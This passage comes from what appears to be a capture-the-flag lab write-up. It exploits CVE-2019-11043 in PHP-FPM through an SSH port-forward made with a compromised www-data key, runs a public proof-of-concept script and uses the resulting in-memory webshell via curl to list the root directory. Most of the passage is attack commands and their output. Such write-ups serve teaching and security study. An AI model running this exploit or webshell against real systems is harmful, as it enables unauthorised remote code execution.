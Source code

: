 #### POC

Googling “CVE-2019-11043 python” found [this
GitHub](https://github.com/theMiddleBlue/CVE-2019-11043) repo with a POC.
Because this generates a ton of connections, I opted for a direct connection
rather than a SOCKs:

    
    
    oxdf@parrot$ ssh -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10 -L 9001:192.168.254.3:80
    ...[snip]...
    

Running the exploit takes a minute or two, as it’s trying different length
requests to find the right overwrite in memory. Eventually, it finds it, and
reports that a webshell is now in memory:

    
    
    oxdf@parrot$ python3 /opt/CVE-2019-11043/exploit.py --url http://127.0.0.1:9001/index.php
    [*] QSL candidate: 1754, 1759, 1764
    [*] Target seems vulnerable (QSL:1754/HVL:219): PHPSESSID=f73b39e0eda602d14224e4095b436f6c; path=/
    [*] RCE successfully exploited!
    
        You should be able to run commands using:
        curl http://127.0.0.1:9001/index.php?a=bin/ls+/
    

Hitting the webshell returns a bunch of errors, but then the output of the
command:

    
    
    oxdf@parrot$ curl http://127.0.0.1:9001/index.php?a=/bin/ls+/
    [05-Aug-2021 00:43:52 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:43:52 UTC] PHP Fatal error:  Unknown: Failed opening required 'a' (include_path='/tmp') in Unknown on line 0
    [05-Aug-2021 00:43:53 UTC] PHP Warning:  Unknown: failed to open stream: No such file or directory in Unknown on line 0
    [05-Aug-2021 00:43:54 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
    ...[snip]...
    [05-Aug-2021 00:44:14 UTC] PHP Warning:  Unknown: Unable to load dynamic library 'bin
    boot
    dev
    entry.sh
    etc
    home
    lib
    lib64
    media
    mnt
    opt
    php-src
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    ' - bin
    boot
    dev
    entry.sh
    etc